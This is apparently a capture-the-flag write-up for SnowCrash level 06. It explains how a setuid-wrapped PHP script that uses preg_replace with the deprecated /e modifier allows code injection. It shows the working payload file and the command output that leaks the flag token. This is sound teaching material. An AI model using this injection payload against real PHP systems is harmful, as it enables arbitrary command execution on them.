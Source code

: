 Level 06
========

*	We spawn with a `level06` file in root repository
	```console
	level06@SnowCrash:~$ ls -l
	total 12
	-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
	level06@SnowCrash:~$ cat level06.php 
	```
	```php
	#!/usr/bin/php
	function y($m)
	{ 
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}

	function x($y, $z)
	{
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a);
		return $a;
	}

	$r = x($argv[1], $argv[2]);
	print $r;
	```
*	When we look in detail, we can see that the executable runs the script of the `level06.php` file
*	More important, in the permissions we can see that `level06` will be executed as `flag06`
*	The script is pretty straight forward:
	> It defines two functions:
	>	- Function y($m): Replaces dots (.) with " x " and @ with " y".
	>	- Function x($y, $z): Reads the content of a file specified by $y, applies some 	transformations to the content, and returns the modified content.

	> It then calls function x() with command line arguments $argv[1] and $argv[2], which are typically provided when the script is executed from the command line.

	> The result of the function call is stored in $r, and it's printed out at the end.
*	The important part here is that the regex has major security issues
	```php
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	```
*	Here the `/e` regex modifier is a deprecated one which allows you to use **PHP** code within your reguler expression, which means whatever is parsed will be part of the program
*	We can use this vulnerability to execute `getflag`
*	So let's create the file argument with the exploit inside :
	```console
	level06@SnowCrash:~$ echo -e "[x {\${exec(getflag)}}]" > /tmp/test1
	level06@SnowCrash:~$ ./level06 /tmp/test1
	PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
	```